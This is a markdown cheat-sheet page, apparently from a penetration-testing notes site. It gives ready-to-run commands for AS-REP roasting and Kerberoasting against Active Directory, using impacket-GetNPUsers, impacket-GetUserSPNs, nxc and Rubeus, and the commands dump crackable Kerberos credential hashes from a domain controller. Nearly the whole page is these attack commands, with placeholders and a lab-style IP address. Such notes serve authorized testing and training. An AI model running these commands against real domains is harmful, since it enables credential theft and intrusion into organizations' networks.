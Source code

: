 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["as_rep roasting", "impacket", "active directory", "ad", "domain controller", "Windows", "kerberoasting", "GetNPUsers"]
---
```


---
### AS_REP Roasting

{{< tab set1 tab1 active >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile usernames.txt -no-pass -dc-ip <DC>
```

```bash
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip 10.10.11.10 <DOMAIN>/<USER>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# Multiple valid usernames (nxc)
nxc ldap 10.10.11.10 -u usernames.txt -p '' --asreproast as_rep_hashes.txt
```

</div>

{{< /tabcontent >}}

<br>

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 active >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
# Fix time skew
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

</div>

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

<div>

```bash
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile usernames.txt -dc-host <DC_IP> <DOMAIN>/
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```bash
nxc ldap <DC_IP> -u <UESR> -p <PASSWORD> --kerberoasting kerberoast_hashes.txt
```

</div>

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```cmd
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD>
```

</div>

{{< /tabcontent >}}


<br>
